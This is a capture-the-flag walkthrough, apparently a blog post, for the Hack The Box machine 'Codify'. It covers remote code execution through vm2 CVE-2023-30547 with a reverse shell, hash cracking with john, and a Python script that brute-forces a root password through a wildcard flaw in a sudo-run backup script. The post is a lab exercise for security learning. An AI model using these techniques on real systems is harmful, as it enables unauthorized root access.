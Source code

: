 <h2>CODIFY HTB</h2>


### NMAP SCAN

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/8a6e7234-f883-4835-831b-61e6e38cfb69)

``Add codify.htb to /etc/hosts file``

visiting the url shows our target is a Node.js editor

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/43820d8b-1120-41a7-9fef-eeb654420e65)

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/8e5750d5-a53c-4997-939d-0ea60b9aba08)

And yeah we can see it's running `vm2 version 3.9.16` which is vulnerable to ``Remote code execution`` ``CVE-2023-30547``

so, a quick google search gave the [exploit](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)

we can easily gain reverse shell by modify the execSync funtion and setting our netcat listener

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/c5e6cc05-bfa4-45ee-8364-6f10b32018b9)

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/2735706b-e8f3-49ad-958a-6900386949fc)

### PRIVILEGE ESCALATION

Trying to read the files in joshua directory and permission was denied

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/2ab2583d-61ff-42f2-8401-627c24c3256f)

so, there's a database file in the /var/www/contact directory which contains the user joshua password hash

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/764131ac-3120-402d-9083-2bb41ded93be)

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/3120ca6f-a3d2-4699-8cc1-cfe24bd69a2a)

And yeah i was able to crack the hash using john 

```john --wordlist=/usr/share/wordlists/rockyou.txt hash```

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/30ab44ed-694d-4e19-b35f-726623d393ab) 

we can now ssh into the box as joshua to get user flag and proceed

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/a1c9a152-907d-49bc-9c7f-eb783586c15d)

running `sudo -l` shows we can run the mysql-backup script as sudo

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/a7fdc197-aff9-45e0-a397-c0a02c46d0a2)

and yeah we can guess or brute force the first password character followed by * to bypass the password prompt. and we can also brute force every character of the password till we find all characters of the password.

```
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
found = False

while not found:
    for character in all:
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            print(password)
            break
    else:
        found = True
```

which i was able to get the root password and su as root

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e82c4557-2037-4e71-b037-ee45d145e655)

so, cat the root flag

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/97e615ce-991b-4153-83ce-c03ba7d63c69)



Thanks.











